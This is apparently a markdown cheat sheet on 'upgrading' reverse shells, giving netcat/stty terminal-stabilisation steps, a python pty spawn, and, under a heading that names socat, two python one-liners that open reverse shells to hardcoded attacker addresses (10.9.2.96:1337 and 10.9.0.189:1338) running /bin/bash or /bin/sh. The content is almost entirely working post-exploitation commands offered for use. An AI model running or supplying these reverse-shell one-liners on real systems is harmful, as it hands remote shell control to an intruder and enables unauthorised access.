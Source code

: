 # How to upgrade reverse shell :
## Method 1 : upgrade netcat
```bash
SHELL=/bin/bash script -q /dev/null
```
<kbd>Ctrl</kbd>+<kbd>Z</kbd>
```bash
stty raw -echo
fg
reset
Terminal type? xterm
```
Using netcat listener and you want shell with terminal command like <kbd>&#8593;</kbd> key to go back to history command, <kbd>Ctrl</kbd>+<kbd>c</kbd>  to stop a command instead of netcat listener, etc.
## Method 2 : spawn a TTY
```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```
<kbd>Ctrl</kbd>+<kbd>Z</kbd>
```bash
stty raw -echo
fg
export TERM=xterm
```
To fool commands like `su username`when you need a proper terminal to execute them. 
## Method 3 : socat
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

```shell
python3 -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.2.96",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```
```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.0.189",1338));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTEwNDUwNDAxNzIsMTY0MDY0NTkzMCwtMT
E3MDQ2OTg1MiwyMzUyNDUyMzIsMTQ2MTc0NDA2LDE5MzgyMTE4
NDYsLTE0MjUxNDA5NywxOTEzNTkyMTkxXX0=
-->